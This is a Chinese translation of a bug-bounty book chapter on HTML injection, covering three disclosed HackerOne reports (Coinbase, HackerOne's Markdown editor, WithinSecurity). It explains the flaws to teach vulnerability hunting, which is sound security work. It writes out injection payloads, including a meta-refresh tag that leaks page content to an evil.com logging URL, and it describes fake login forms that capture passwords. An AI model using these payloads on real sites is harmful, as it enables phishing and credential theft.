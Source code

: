 ## **五、HTML 注入**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**
超文本標記語言（HTML）注入有時也被稱為虛擬污染。這實際上是一個由站點造成的攻擊，該站點允許惡意用戶向其 Web 頁面注入 
<br>
HTML，並且沒有合理處理用戶輸入。換句話說，HTML 注入漏洞是由接收 HTML 
<br>
引起的，通常通過一些之後會呈現在頁面的表單輸入。這個漏洞是獨立的，不同於注入 Javascript，VBscript 等。
<p>
由於 HTML 是用於定義網頁結構的語言，如果攻擊者可以注入 HTML，它們基本上可以改變瀏覽器呈現的內容。有時，這可能會導致頁面外觀的完全改變，
<br>

或在其他情況下，創建表單來欺騙用戶，例如，如果你可以注入HTML，你也許能夠將`<form> `
<br>
標籤添加到頁面，要求用戶重新輸入他們的用戶名和密碼。然而，當提交此表單時，它實際上將信息發送給攻擊者。

---


### **1. Coinbase 評論**
```
難度：低
URL： coinbase.com/apps
報告鏈接： https://hackerone.com/reports/104543
報告日期：2015.12.10
獎金：$200
```
描述：
對於此漏洞，報告者識別出 Coinbase 在呈現文本時，實際上在解碼 URI 的編碼值。對於那
<br>
些不熟悉它的人（我在寫這篇文章的時候），URI 中的字符是保留的或未保留的。根據維基
<br>
百科，保留字是有時有特殊意義的字符，如 `/` 和 `&` 。未保留的字符是沒有任何特殊意義的
<br>
字符，通常只是字母。

因此，當字符被 URI 編碼時，它將按照 ASCII 轉換為其字節值，並以百分號（`%`）開頭。所以，`/`變成`%2F`，`&`成為`%26`。另外，ASCII 
<br>
是一種在互聯網上最常見的編碼，直到 UTF-8 出現，它是另一種編碼類型。現在，回到我們的例子，如果攻擊者輸入 HTML：

```html
<h1> This is a test</h1>
```

Coinbase 實際上會將其渲染為純文本，就像你上面看到的那樣。但是，如果用戶提交了 URL 編碼字符，像這樣：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```
Coinbase 實際上會解碼該字符串，並渲染相應的字符，像這樣：

```
This is a test
```

使用它，報告者演示瞭如何提交帶有用戶名和密碼字段的 HTML 表單，Coinbase 會渲染他。如果這個用戶是惡意的，Coinbase 就會渲染一個表單，它將值提交給惡意網站來捕獲憑據（假設人們填充並提交了表單）。


>重要結論
>
>當你測試一個站點時，要檢查它如何處理不同類型的輸入，包括純文本和編碼文本。特別要注意一些接受 URI 編碼值，例如`%2f`>，並渲染其解碼值的站點，這裡是`/`。雖然我們不知道這個例子中，黑客在想什麼，它們可能嘗試了 URI 編碼限製字符，並註意到 Coinbase >會解碼它們。之後他們更一步 URL 編碼了所有字符。

[http://quick-encoder.com/url](http://quick-encoder.com/url) 是一個不錯的 URL 編碼器。你在使用時會注意到，它告訴你非限製字符不需要編碼，並且提供了編碼 URL 安全字符的選項。這就是獲取用於 COinbase 的相同編碼字符串的方式

---

### **2. HackerOne 無意識 HTML 包含**
```
難度：中
URL：hackerone.com
報告鏈接：https://hackerone.com/reports/112935
報告日期：2016.1.26
獎金：$500
描述：
```

在讀完 Yahoo XSS 的描述（第七章示例四），我對文本編輯器中的 HTML 渲染測試產生了興
<br>
趣。這包含玩轉 HackerOne 的 Markdown 編輯器，在圖像標籤中輸入一些類似 `ismap=
"yyy=xxx"` 和 `"'test"` 的東西。這樣做的時候，我注意到，編輯器會在雙引號裡麵包含一個單
引號 - 這叫做懸置引號。
<p>
那個時候，我並沒有真正理解它的含義。我知道如果你在某個地方注入另一個單引號，兩個
<br>
引號就會被瀏覽器一起解析，瀏覽器會將它們之間的內容視為一個 HTML 元素，例如：
<br>

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```
使用這個例子，如果你打算注入一個 Meta 標籤：
```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```
瀏覽器會提交兩個引號之間的任何東西。<br />
現在，結果是，這個已經在 HackerOne 的 [#110578](https://hackerone.com/reports/110578)報告中由 [intidc](https://hackerone.com/intidc) 公開。<p>

看到它公開之後，我有一點失望。<br />
根據 HackerOne，它們依賴於 Redcarpet（一個用於 Markdown 處理的 Ruby 庫）的實現，<br />
來轉義任何 Markdown 輸入的 HTML 輸出，隨後它會通過 React 組件<br />
的 dangerouslySetInnerHTML 直接傳遞給 HTML DOM（也就是頁面）。此外，React 是一個<br />
JavaScript 庫，可用於動態更新 Web 頁面的內容，而不需要重新加載頁面。<p>
DOM 指代用於有效 HTML 以及 格式良好的 XML 的應用程序接口。<br />
本質上，根據維基百科，DOM 是跨平台並且語言無關的約定，用於展示 HTML、XHTML 和 XMl 中的對象，並與其交互。<p>
在 HackerOne 的實現中，它們並沒有合理轉義 HTML 輸出，這會導致潛在的漏洞。<br />
現在，也就是說，查看披露，我覺得我應該測試一下心得代碼。我返回並測試了這個：
```html
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```
它會變成
```html
<a title="'test" ismap="alert xss" yyy="test" ' ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```
你可以看到，我能夠將一堆 HTML 注入到 `<a>` 標籤中。<br />
所以，HackerOne 回滾了該修復版本，並重新開始轉義單引號了。
```
重要結論
僅僅是代碼被更新了，並不意味著一些東西修復了，而是還要測試一下。當部署了變更
之後，同時意味著新的代碼也可能存在漏洞。
此外，如果你覺得有什麼不對，一定要深入挖掘。我知道一開始的尾後引號可能是個問
題，但是我不知道如何利用它，所以我停止了。我本應該繼續的。我實際上通過閱讀
XSS Jigsaw 的 了解了 Meta 刷新利用。
```


---


### **3. WithinSecurity 內容偽造**
```
難度：低

URL：withinsecurity.com/wp-login.php
報告鏈接：https://hackerone.com/reports/111094
報告日期：2015.1.16
獎金：$250
```
描述：
<p>
雖然內容偽造實際上和 HTML 注入是不同的漏洞，我也將其包含在這裡，因為它們擁有相似的本質，攻擊者讓一個站點渲染它們選擇的內容。
<p>
WithinSecurity 構建在 WordPress 平台之上，它包含登錄頁面withinsecurity.com/wp-login.php（這個站點已經合併到了 HackerOne 的核心平台中）。攻擊者註意到了在登錄過程中，如果發生了錯誤，WithinSecurity 就會渲染access_denied，同時對應 URL 中的error參數：

<pre>
https://withinsecurity.com/wp-login.php?error=access_denied
</pre>

注意到了這個，攻擊者嘗試修改`error`參數，並發現無論參數傳遞了什麼值，都會被站點渲染為錯誤信息的一部分，並展示給用戶。這裡是所用的示例：


<pre>https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked</pre>

![5](https://raw.githubusercontent.com/dyeat/Document_read/master/Web_Hacking_101/image/5-1.jpg)

WithinSecurity 內容偽造

這裡的關鍵是注意到 URL 中的參數在頁面中渲染。雖然他們沒有解釋，我可以假設攻擊者註意到了`access_denied`展示在了頁面上，但是也包含在 URL 中。這裡他們也報告了，漏洞也可以由一個簡單的測試，修改`access_denied`參數來找到。

>重要結論
>
>時刻關注傳遞並且渲染為站點內容的 URL 參數。他們可能就是攻擊者的機會，用於欺騙受害者來執行一些惡意動作。


## 總結
HTML 注入向站點和開發者展示了漏洞，因為他可以用於誤導用戶，並且欺騙它們來提交一些敏感信息，或者瀏覽惡意網站。就像釣魚攻擊那樣。
<p>
發現這些漏洞並不是通過僅僅提交 HTML，而是弄清楚站點如何渲染你的輸入文本，像是 URI 編碼的字符。而且，雖然內容偽造並不和 HTML 注入完全一樣，它也是類似的，因為它涉及讓一些輸入在 HTML 頁面中反映給受害者。攻擊者應該仔細尋找機會，來操縱 URL 參數，並讓它們在站點上渲染。
